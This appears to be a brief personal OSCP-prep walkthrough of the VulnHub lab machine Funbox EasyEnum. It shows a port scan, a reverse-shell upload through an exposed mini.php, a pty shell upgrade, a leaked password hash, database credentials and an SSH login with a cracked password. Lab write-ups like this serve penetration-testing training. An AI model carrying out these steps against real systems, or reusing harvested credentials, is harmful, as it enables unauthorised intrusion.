

repository: nobodynate/nobodynate.github.io · page: OSCP-Prep/VulnHub/Funbox EasyEnum/index.html · generator: mkdocs

# Funbox: EasyEnum

![[Pasted image 20220520194954.png]]

```
192.168.1.136
```

## Port scan
```
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
```

Found `mini.php` which is some mini shell.
I was able to upload `php-reverse-shell.php` and get a shell as www-data.

upgrade the shell

```python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
export TERM=xterm
```

### Privesc from www-data

```
/etc/passwd:oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
```


dbpass=`tgbzhnujm`  
dbuser=`phpmyadmin`

![[Pasted image 20220520220219.png]]

```
ssh oracle@192.168.1.136
```

```
hiphop
```
